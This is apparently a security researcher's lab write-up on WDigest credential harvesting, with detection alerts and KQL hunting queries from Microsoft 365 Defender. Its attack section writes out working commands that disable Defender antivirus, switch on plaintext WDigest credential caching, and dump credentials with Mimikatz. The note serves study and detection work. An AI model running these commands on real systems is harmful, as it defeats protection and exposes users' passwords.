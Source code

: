 # Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - Detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## Detection
After simulating a WDigest credential harvesting attack, let's examine how this attack is mapped into a single incident in Microsoft 365 Defender portal.

All the attack techniques, from disabling antivirus to executing Mimikatz, were detected by Microsoft Defender for Endpoint, generating 11 alerts. Additionally, Threat Analytics provides insights related to Mimikatz and WDigest credential harvesting.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/1c9c3f9d-4ff2-4269-b67f-f6d6a67f72b3)

#### ***Alert : Microsoft Defender Antivirus protection turned off***
A protection feature in Microsoft Defender Antivirus has been turned off. An attacker might be trying to evade detection.

> [!Note]
> Microsoft Defender for Endpoint detected a command to disable antivirus.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/dde8b17c-38bc-4847-87fc-d8940ebc8313)

#### ***Alert : WDigest configuration change***
An attempt to turn on the WDigest authentication provider through the registry was observed.
If the attempt is successful, WDigest will load on the next restart and begin to store credentials as plaintext in LSASS process memory. An attacker might be attempting to collect those credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/8065422f-a296-46a3-82a0-71a0997108db)

#### ***Alert : Malicious credential theft tool execution detected***
A known credential theft tool execution command line was detected. Either the process itself or its command line indicated an intent to dump users' credentials, keys, plain-text passwords and more.
> [!Note]
> the two mimiktaz commands (mimikatz # privilege::debug, mimikatz # sekurlsa::wdigest) which I simulated on the device were also detected by Microsoft Defender for Endpoint

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/d4325269-853e-4488-837d-2a56e77b0928)


## Threat Hunting
#### WDigest configuration change
This query helps identify attempts to enable WDigest credentiall caching through the registry.

```kql
union DeviceRegistryEvents, DeviceProcessEvents
// Find attempts to turn on WDigest credential caching
| where RegistryKey contains "wdigest" and RegistryValueName == "UseLogonCredential" and RegistryValueData == "1" or 
// Find processes created with commandlines that attempt to turn on WDigest caching
ProcessCommandLine has "WDigest" and ProcessCommandLine has "UseLogonCredential" and ProcessCommandLine has "dword" and ProcessCommandLine has "1"
| project Timestamp, DeviceName, PreviousRegistryValueData,  
RegistryKey, RegistryValueName, RegistryValueData, FileName, ProcessCommandLine, 
InitiatingProcessAccountName, InitiatingProcessFileName, 
InitiatingProcessCommandLine, InitiatingProcessParentFileName
```
> **Source** : WDigest credential harvesting, Threat Analytics in Microsoft 365 Defender

#### Mimikatz CommandLine

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName in~ ("powershell.exe","powershell_ise.exe", "mimikatz.exe")
| where ProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump") or InitiatingProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump")
| summarize make_set(ProcessCommandLine) by DeviceId, DeviceName
```

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
